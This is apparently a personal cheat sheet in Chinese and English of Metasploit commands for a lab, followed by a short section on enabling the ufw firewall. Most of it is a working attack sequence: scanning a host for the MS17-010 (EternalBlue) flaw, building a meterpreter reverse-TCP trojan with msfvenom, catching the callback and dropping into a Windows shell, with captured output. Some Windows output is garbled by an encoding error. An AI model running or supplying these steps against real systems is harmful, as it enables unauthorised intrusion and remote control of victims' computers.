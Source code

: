 # msfconsole

- msfconsole 

 

- search ms17_010 

\#永恒之蓝漏洞模板 

 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

 

show options 

\#设置参数 

 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 

# ufw

- apt update 
- apt -y install ufw 

\#install ufw 

 

- ufw enable 

\#turn on ufw 

 

- ufw allow 80 

\#open port 80 

 

- ufw status 

\#check the port open 